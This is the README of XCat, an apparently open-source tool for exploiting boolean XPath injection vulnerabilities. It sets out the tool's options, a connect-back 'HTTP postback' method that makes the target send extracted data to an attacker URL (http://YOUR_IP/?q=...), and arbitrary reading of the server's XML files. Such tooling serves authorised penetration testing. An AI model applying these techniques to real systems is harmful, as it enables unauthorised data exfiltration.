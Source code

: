 XCat
====

XCat is a command line program that aides in the exploitation of XPath injection vulnerabilities.
It boasts a wide range of features and can utilize the more advanced features of the XPath 2.0 specification (pattern matching, unicode normilization and even http requests) or gracefully degrade to using XPath 1.0 if they are not available.

XCat is built to exploit boolean XPath injections (Where only one bit of data can be extracted in one request) and it requires you to manually identifiy the exploit first, this does not do that for you.

Features
--------
* Exploits both GET and POST attacks
* Extracts all nodes, comments, attributes and data from the entire XML document
* One file, two dependancies ([Python 2.7+](http://www.python.org/download/releases/2.7.2/) and [cElementTree](http://effbot.org/downloads/#elementtree))
* Parallel requests (adjustable thread pool size)
* XPath 2.0 supported (with graceful degrading to 1.0)
* [Regex](http://www.w3.org/TR/xpath-functions/#func-matches) pattern matching to reduce character search space
* [Unicode normalization](http://www.w3.org/TR/xpath-functions/#func-normalize-unicode)
* Advanced data postback through HTTP (see below)
* Arbitrarily read XML files on the servers file system via the doc() function (see below)

Usage
-----
	usage: main.py [-h] [--method {GET,POST}] [--arg POST_ARGUMENT]
	               [--true TRUE_KEYWORD] [--false FALSE_KEYWORD]
	               [--max_search SEARCH_LIMIT] [--error ERROR_KEYWORD]
	               [--timeout TIMEOUT] [--threadpool POOLSIZE]
	               [--stepsize STEP_SIZE] [--xversion {1,2,auto}] [--lowercase]
	               [--regex] [--connectback] [--connectbackip CONNECTBACK_IP]
	               [--connectbackport CONNECTBACK_PORT]
	               [--notfoundstring NOTFOUNDCHAR] [--fileshell]
	               URL

### Simple usage with the example application
Check out the [readme](blob/master/src/example_application/README.md) to try out XCat with the provided example application.

HTTP Postback / doc function
----------------------------
Possibly the most advanced feature of XCat is its 'HTTP postback' feature. The XPath 2.0 schema defines a function called [doc](http://www.w3.org/TR/xpath-functions/#func-doc) which allows the programmer to load external documents from the file system or even from a remote network resource via HTTP/HTTPS. If the doc function is enabled and working then XCat will use it where possible to greatly speed up document retrieval times. It does this by running a small HTTP server within the program which listens on a specified port and by then calling the doc() function with the currently targetted node's data URI encoded and appended to a query. This means the XPath library will make a HTTP request to your IP (requires the port to be forwarded and/or a public IP) in the following format:

	http://YOUR_IP/?q=some%20data%20goes%here

This is far more efficient than iterating over the string character by character and can greatly reduce the retrieval times.

You can (ab)use this function to load XML file on the system, as long as you have read permissions over it, allowing you to retrieve lots of lovely XML configuration files - you can jump into a pseudo-shell within XCat by using the --fileshell flag and enter any file path.
